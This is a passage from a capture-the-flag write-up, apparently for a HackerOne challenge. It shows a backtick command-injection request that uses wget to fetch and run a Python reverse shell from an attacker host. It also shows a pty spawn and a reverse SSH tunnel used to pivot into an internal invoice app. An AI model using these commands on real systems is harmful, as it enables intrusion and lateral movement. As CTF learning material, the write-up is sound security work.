 Dead end!

#### _

I was forgetting something:

![Hint](images/hint.png)

Cody is the creator of the CTF. Could this be a hint? I really didn't know. But that made me try parameters with `_`:
```
update_server=test
server_host=test
host_server=test
update_host=test
```

Suddenly, I got `Connecting to http://test:5000/ and downloading update manifest`!! Yeah! So I was able to change the hostname and so do a SSRF... No, No. None of my attempts triggered a http request. What about a command injection? Using backticks (\`) I was able to inject a sleep command. Success, let's do a reverse shell:

```
GET /update?port=80&update_host=localhos`wget+http://X.X.X.X:666/shell.py+-O+/tmp/.shell.py;python+/tmp/.shell.py;rm+-rf+/tmp/.shell.py`t HTTP/1.1
Host: 104.196.12.98
Cookie: session=eyJsb2dnZWRJbiI6dHJ1ZX0.XIHPog.46NKzPROJLINKkYDyQpOQI27JD0
```

We are inside! Where is the flag?

## Internal Server (172.28.0.3) - Invoice App

There were no flags! Doing an initial recon I noticed that I was in a docker container. And the first thing that came to my mind was CVE-2019-5736, a docker container escape to host. But I decided to look more, initially by checking the app source code at `/app/main.py` to see if there were other containers on the same network. What a surprise when I found another server at `172.28.0.3` with port 80 open. Using curl I was able to see that it was another web app, something about Hackerone invoices! 

### Tunnel

To make my life easier and to not leak what I was doing I decided to make an SSH tunnel to my server with port forwarding:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
ssh -fN  -o StrictHostKeyChecking=no -o PreferredAuthentications=password -o PubkeyAuthentication=no -R *:81:172.28.0.3:80 root@X.X.X.X -p 32777
```

The above SSH command will forward all connection to local port 81 on X.X.X.X to 172.28.0.3:80. So from this moment on, I could use all my local exploits using localhost:81 as the target. 

### Login
